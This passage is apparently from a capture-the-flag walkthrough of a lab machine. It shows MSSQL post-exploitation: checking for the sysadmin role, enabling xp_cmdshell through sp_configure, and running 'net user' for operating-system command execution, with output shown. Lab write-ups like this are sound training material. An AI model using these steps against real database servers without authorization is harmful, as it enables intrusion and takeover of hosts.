 As a first step, we check our role on the server. This command can be found in the cheatsheet above:

	SELECT is_srvrolemember('sysadmin');

The output `1` translates to `True`:

	SQL (ARCHETYPE\sql_svc  dbo@master)> SELECT is_srvrolemember('sysadmin');
	    
	-   
	1

In the cheatsheets above, we can also find how to set up the command execution through the `xp_cmdshell`:

	EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
	EXEC sp_configure 'show advanced options', 1; — priv
	RECONFIGURE; — priv
	EXEC sp_configure 'xp_cmdshell', 1; — priv
	RECONFIGURE; — priv

First it is suggested to check if the `xp_cmdshell` is already activated by issuing the first command:
`EXEC xp_cmdshell 'net user';`

	SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net user';
	ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

It is not, so we have to proceed with the activation of `xp_cmdshell` with the script below:

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	sp_configure; - Enabling the sp_configure as stated in the above error message
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;

After executing all of the commands above, we can see that the `xp_cmdshell` is now activated:

	SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net user';
	output                                                                          
	------------------------------------------------------------------------------- 
	NULL                                                                            
	
	User accounts for \\ARCHETYPE                                                   
	
	NULL                                                                            
	
	------------------------------------------------------------------------------- 
	
	Administrator            DefaultAccount           Guest                         
	
	sql_svc                  WDAGUtilityAccount                                     
	
	The command completed successfully.                                             
	